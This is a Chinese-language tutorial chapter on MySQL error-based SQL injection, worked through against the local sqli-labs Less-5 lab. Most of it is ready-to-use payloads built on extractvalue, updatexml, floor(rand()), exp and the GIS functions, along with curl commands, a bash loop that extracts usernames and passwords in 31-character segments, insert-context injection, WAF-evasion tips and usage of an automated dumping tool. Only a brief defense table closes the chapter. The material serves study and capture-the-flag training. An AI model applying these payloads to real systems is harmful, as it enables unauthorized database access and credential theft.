


## 03 报错注入 -- 考点精讲

> 前置知识：[[02-字符型注入|02-字符型注入]] -- 闭合方式判断是报错注入的前置动作
>
> 关联教程：[[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]] · [[04-布尔盲注|04-布尔盲注]]

### 适用条件

页面对 SQL 错误**回显详细信息**时可用（源码里 `mysqli_error($con)` 直接 echo，或框架 debug 模式开着）。核心思路：**构造一个必然报错的函数调用，把想查的数据作为"错误信息的一部分"吐出来**。

判断方法：输入 `'` 后页面出现 `You have an error in your SQL syntax`、`XPATH syntax error` 等数据库原文错误 → 报错注入可行。

报错注入的价值在于**不需要 union 回显位**。sqli-labs Less-5 只回显一句 "You are in..."，union 查到了数据也显示不出来，但报错原文照印——这就是报错注入的主战场。本章靶场对照：sqli-labs **Less-5**（单引号闭合 + 报错回显）。

### 三大函数详解

#### 一、extractvalue(xml_document, xpath_string)

原理：extractvalue 是 MySQL 5.1+ 的 XML 函数，按 XPath 从 XML 字符串中提取值。当第二个参数**不是合法 XPath**（以 `~` 即 0x7e 开头）时抛出 `XPATH syntax error`，**报错信息中会带上非法参数内容**——于是把子查询拼进去就能回显数据。

```sql
-- 基础结构
' and extractvalue(1, concat(0x7e, (select database()), 0x7e)) --+

-- 实例：爆当前库名
?id=1' and extractvalue(1, concat(0x7e, (select database()))) --+
-- 回显: XPATH syntax error: '~security'
```

两个参数的取值要点：

| 参数 | 传什么 | 说明 |
|------|--------|------|
| 第 1 参 xml_document | `1` 或任意字符串 | 函数根本不会走到解析 XML 那步就报错了 |
| 第 2 参 xpath_string | `concat(0x7e, 子查询)` | 必须以非法字符开头；`0x7e` 是 `~` 的十六进制，避免直接写字符被过滤 |

concat 中间可加分隔符 `0x3a`（冒号）让回显更易读。

#### 二、updatexml(xml_document, xpath_string, new_value)

原理与 extractvalue 完全相同：第二个参数 XPath 非法时报错并回显其内容，同样受 32 位限制。

```sql
-- 爆表名
?id=1' and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database())), 1) --+
-- 回显: XPATH syntax error: '~emails,referers,uagents,users'

-- 爆列名
?id=1' and updatexml(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='users')), 1) --+

-- 取数据（group_concat 聚合成单值）
?id=1' and updatexml(1, concat(0x7e, (select group_concat(username,0x3a,password) from users)), 1) --+
```

两者选哪个都行，习惯上爆库用 extractvalue、写 payload 用 updatexml 的更多，本质无差别。

#### 三、floor(rand()) 主键冲突（count + group by）

这是唯一需要理解底层机制的报错方式，适用于 MySQL < 5.7.28 区间的部分版本，且不依赖 XPath。

payload 固定模板：

```sql
?id=1' union select 1,count(*),concat((select database()), floor(rand()*2)) as x from information_schema.tables group by x --+
```

原理分四步：

1. **rand() 在 group by 中会被多次计算**：group by 建立虚拟临时表时，每处理一行记录要先查虚拟表中是否存在该分组键（此时计算一次 rand()），不存在则插入（插入时又计算一次 rand()）。同一个 rand() 表达式在一次 group by 里至少被算两次，且两次结果可能不同。
2. **floor(rand()*2) 只有 0 和 1 两种取值**。
3. **主键重复触发报错**：虚拟表以 concat(...) 整体作为主键。某键第一次出现执行插入时重新计算的 rand() 结果恰好与已有主键相同，抛出 `Duplicate entry 'xxx' for key 'group_key'`，而 entry 内容正是 concat 中拼接的**查询结果**。
4. **概率性而非必现**：需要记录数足够多（配合 from information_schema.tables 提供多行）使碰撞几乎必然发生。

注意：此法在 MySQL 5.7+ 部分版本被修复，失败时换 extractvalue/updatexml。

#### floor(rand()) 原理补充：为什么"多次计算"是关键

普通查询中 `select rand() from t` 每行只算一次 rand()，不会报错。报错注入依赖的是 **group by 虚拟表机制**：

```text
虚拟临时表（主键为 x）建立过程：
记录1: 计算 rand() 得 0 → 查表无 0 → 插入时再算 rand() 得 1
       → 插入的键变成 1，但"查表无 0"的判断已做出 → 主键冲突!
记录2: ... 碰撞继续发生

关键: 查表用第 1 次计算的值，插入用第 2 次计算的值，
     floor(rand()*2) 随机翻转导致两者不一致 → 必然性冲突
```

`concat(子查询, floor(rand()*2))` 中子查询结果被拼进主键值，Duplicate entry 报错把整个主键值打印出来，数据就这样"合法地"出现在错误信息里。

#### 32 位长度限制

extractvalue 与 updatexml 的报错 XPath 字符串最长只回显 **32 个字符**，超长数据必须用 substr 分段读：

```sql
-- 每次取 31 位（留 1 位给 ~ 前缀更稳），pos 从 1 开始每次 +31
?id=1' and extractvalue(1, concat(0x7e, substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), 1, 31))) --+
?id=1' and extractvalue(1, concat(0x7e, substr((select ...), 32, 31))) --+
```

分段读取的 curl 循环脚本见下文"本章特有技术"。

### 五步方法论完整实操（Less-5，updatexml 路线）

无 union 回显位时，五步方法论中的"取数据"全部由报错函数承担，骨架不变：

#### Step 1 确认注入存在：恒真/恒假对比

```bash
# 先按 02 章方法确认闭合为单引号，再验证逻辑条件生效
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and 1=1 --+"
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and 1=2 --+"
```

预期：第一条 `You are in...........`，第二条空白。同时确认报错通道可用：

```bash
# 报错函数探活：能吐出 XPATH 错误即路线成立
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,version()),1) --+"
```

输出片段：

```text
XPATH syntax error: '~10.3.35-MariaDB'
```

#### Step 2 探测列数 order by

报错注入本身不依赖列数，但写上此步保证流程完整；且若后续想切回 union 路线，此信息必备：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' order by 3 --+"
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' order by 4 --+"
# order by 4 报 Unknown column → 列数 = 3
```

#### Step 3 获取当前数据库名

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+"
```

输出：

```text
XPATH syntax error: '~security~'
```

extractvalue 版本等价命令（两条路都通，任选）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and extractvalue(1,concat(0x7e,database())) --+"
```

floor(rand()) 版本：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat(database(),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+"
# Duplicate entry 'security:0' for key 'group_key'
```

#### Step 4 根据库名获取表名

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) --+"
```

输出：

```text
XPATH syntax error: '~emails,referers,uagents,users'
```

表名串不足 32 位一次读完；大库被截断时用 substr 分段（见下节脚本）。

#### Step 5 根据表名获取列名再提取数据

```bash
# 爆 users 表列名
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) --+"
# XPATH syntax error: '~id,username,password'

# 提取数据：group_concat 拼接后同样走报错通道吐出
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)),1) --+"
# XPATH syntax error: '~Dumb:Dumb,Angelina:Dummy,Dummy:p@ssw...'
```

注意取数据的子查询务必用 group_concat 聚合成单值或带 `limit 0,1`——报错函数要求标量子查询，返回多行会报 Subquery returns more than 1 row 而不带数据。

### 本章特有技术

#### 32 字符截断与 bash 循环分段提取

数据超过 31 字符时的标准操作流——先测总长度定边界，bash for 循环逐段提取自动拼接：

```bash
#!/bin/bash
# dump_segment.sh：substr 分段读取报错注入结果
BASE="http://127.0.0.1/sqli-labs/Less-5/"
EXPR="(select group_concat(username,0x3a,password) from users)"
STEP=31
RESULT=""

# 第一步：length() 测总长度，确定循环边界
for ((len=1; len<=500; len++)); do
  out=$(curl -s "${BASE}?id=1' and length(${EXPR})=${len} --+")
  if echo "$out" | grep -q "You are in"; then break; fi
done
echo "[*] 总长度: $len"

# 第二步：按 31 位一段循环提取
for ((pos=1; pos<=len; pos+=STEP)); do
  seg=$(curl -s "${BASE}?id=1' and updatexml(1,concat(0x7e,substr((${EXPR}),${pos},${STEP})),1) --+" \
        | grep -oP "(?<=XPATH syntax error: ').*(?=')" )
  RESULT="${RESULT}${seg}"
  echo "[+] pos=$pos : ${seg}"
done

echo ""
echo "[==] 完整数据: ${RESULT}"
```

运行效果示意：

```text
$ bash dump_segment.sh
[*] 总长度: 187
[+] pos=1  : Dumb:Dumb,Angelina:Dummy,Dummy:p@ssword
[+] pos=32 : ,secure:crappy,stupid:stupidness
[+] ...
[==] 完整数据: Dumb:Dumb,Angelina:Dummy,...（14 条完整记录）
```

核心要点只有三处：`length()` 先测长定循环边界、substr 偏移量每次 +31、grep 正则从报错原文里抠出 `~` 后面的内容。extractvalue 路线只需把 payload 换成 `extractvalue(1,concat(0x7e,substr(...)))` 其余不动。

#### floor(rand()) 完整替代序列

XPath 函数被 WAF 拦截时切换 floor 路线，同样是五步骨架：

```bash
# 爆库
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat(database(),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+"

# 爆表
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat((select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+"

# 爆列
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat((select group_concat(column_name) from information_schema.columns where table_name='users'),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+"

# 取数据
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat((select group_concat(username,0x3a,password) from users),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+"
```

floor 法的 Duplicate entry 对长度限制较宽松，但概率性报错偶尔需要把同一命令重试两三次才触发碰撞。

#### curl 输出处理技巧

报错注入的响应里数据混在 HTML 中，管道配合 grep/sed 快速提取干净结果：

```bash
# 提取 XPATH 报错内容（~ 后的数据）
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,database()),1) --+" \
  | grep -oP "(?<=XPATH syntax error: ').*(?=')"

# 提取 Duplicate entry 内容
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,count(*),concat(database(),0x3a,floor(rand()*2)) as x from information_schema.tables group by x --+" \
  | grep -oP "(?<=Duplicate entry ')[^']*"

# 只关心有没有报错发生（退出码判定，适合写脚本分支）
if curl -s "http://127.0.0.1/target/?id=1' and updatexml(1,concat(0x7e,version()),1) --+" | grep -q "XPATH"; then
  echo "[+] 报错通道可用"
fi
```

#### insert/update/delete 场景

报错注入不限于 select。登录注册等写库操作同样可以闭合后追加，curl 用 `-d` 发送：

```bash
# 注册框用户名输入（insert 场景）
curl -s "http://127.0.0.1/register.php" \
     -d "uname=admin' and updatexml(1,concat(0x7e,database()),1) --+&passwd=123456"
# 拼接为: INSERT INTO users VALUES('admin' and updatexml(...) --+','123456',...)
# insert 语句中的子查询照样执行，报错照样回显
```

update 场景注意**不要把 where 条件注释成全表更新**，payload 里保持原 where 结构或用 limit 限制。

#### 路线选择逻辑

肯定不止这三种写法，选择依据：



其他报错函数速查：

| 函数 | 适用环境 | 示例 |
|------|---------|------|
| `exp(x)` | MySQL 5.5 及以下 | `' and exp(~(select * from (select user())a)) --+` |
| `geometrycollection()` | MySQL 5.5（GIS 函数） | `' and geometrycollection((select * from (select * from (select version())a)b)) --+` |
| `multipoint()` | MySQL 5.5（GIS 函数） | `' and multipoint((select * from (select * from (select user())a)b)) --+` |
| `polygon()` | MySQL 5.5（GIS 函数） | `' and polygon((select * from (select * from (select database())a)b)) --+` |
| `bigint 溢出` | MySQL 5.5 | `!(select*from (select user())x)-~0 --+` |

GIS 系列共同套路：`函数((select * from (select (查询)a)b))` 双层嵌套把子查询变成派生表传入非法几何参数报错回显。这些函数在 MySQL 5.6.6+/5.7 已无法用于报错注入，遇到新版本直接放弃。

### 报错注入数据流示意



### 常见报错信息对照表

看到报错原文就能反推闭合方式与可用函数：

| 报错信息 | 含义 | 下一步动作 |
|---------|------|-----------|
| `You have an error in your SQL syntax near ''1'' LIMIT 0,1'` | 单引号包裹，尾部还有 LIMIT | 单引号闭合 + 注释符 |
| `XPATH syntax error: '~xxx'` | extractvalue/updatexml 生效 | 报错注入主战场 |
| `Duplicate entry 'xxx' for key 'group_key'` | floor(rand()) 主键冲突生效 | 报错内容在 entry 里 |
| `Unknown column '4' in 'order clause'` | 列数不足，order by 探到边界 | 回退一列即为真实列数 |
| `Subquery returns more than 1 row` | 子查询返回多行 | 加 group_concat 聚合或 limit 0,1 |
| `Illegal mix of collations` | GIS 函数报错（旧版本） | 换 extractvalue 或降级思路 |
| 页面无任何报错但语句未执行 | 错误被吞掉 | 转布尔盲注 [[04-布尔盲注\|04-布尔盲注]] |

### CTF 例题思路表

| 题目特征 | 思路 |
|---------|------|
| 输入 `'` 页面直接打印 XPATH/Duplicate entry 错误 | 本篇标准流程五步走 |
| union select 被过滤但报错可回显 | 改用报错注入绕开 union，五步全用报错函数完成 |
| 报错只显示前半段 flag | substr 分段读满 31 位，bash 循环脚本一把梭 |
| 无 union 无显位但有 mysqli_error 输出 | 报错注入是首选路径（Less-5 即此形态） |
| insert/update/delete 语句中的注入 | 同样可用 `' and updatexml(...)-- `，闭合后追加，curl -d 发送 |
| updatexml/extractvalue 关键字被拦 | 切 floor(rand()) 路线或 exp/GIS 旧版函数 |
| flag 表不在当前库 | 先 information_schema.schemata 爆所有库名再跨库查询 |

### 坑位速查

| 现象 | 原因 | 解决 |
|------|------|------|
| XPATH 错误里只有 `~` 没有数据 | 子查询为空或表名写错 | 先单独跑 database() 验证函数可用 |
| 报错内容超过 ~ 后被截断 | 32 字符硬限制 | substr 分段读，见 bash 循环脚本 |
| Subquery returns more than 1 row | 子查询返回多行 | group_concat 聚合或 limit 0,1 |
| floor 法怎么都不报错 | MySQL 版本已修复该行为 | 直接换 updatexml，别死磕 |
| payload 中 `'` 触发 WAF 拦截 | 引号被拦 | 十六进制编码字符串 `table_name=0x7573657273` |
| curl 输出里看不到报错 | 报错在 HTML 注释或 JS 里 | 加 `\| grep -i error` 过滤定位 |

### 自动化：sqlinject.py 工具

手工五步熟练后，可用自制工具一键完成（工具源码与用法见 `~/hackingtools/web/injection/sqlinject`（工具库位于仓库外 `/home/a/hackingtools`），位于 ~/hackingtools/web/injection/sqlinject，支持 -h/--help 查看完整指南）：

```bash
# Less-5 场景：无回显位，指定报错注入模式
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" --error

# 自动处理 32 位截断：工具内部自动分段拼接完整数据
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" --error --dump users
```

`--error` 模式按本章流程执行：探活报错通道 → 爆库 → 爆表 → 爆列 → 取数，遇到超长数据自动走 substr 分段。手工 bash 循环脚本的意义是让你理解分段逻辑，出问题时能手动接管任意一段。

### 防御手段

| 防御方式 | 说明 |
|---------|------|
| 关闭错误回显 | PHP 设 `display_errors=Off`，生产环境绝不输出 mysqli_error |
| 自定义错误页 | 统一 500 页面替代原始错误信息 |
| 预编译 | 与其他注入类型相同的根治方案 |
| 最小权限 | 即使被注入也拿不到 information_schema 全局信息 |

一句话总结：报错注入的根因是"报错信息 = 数据出口"，掐断这个出口，报错注入就退化为布尔盲注。

---
**返回** [[SQL总目录|SQL 总目录]]
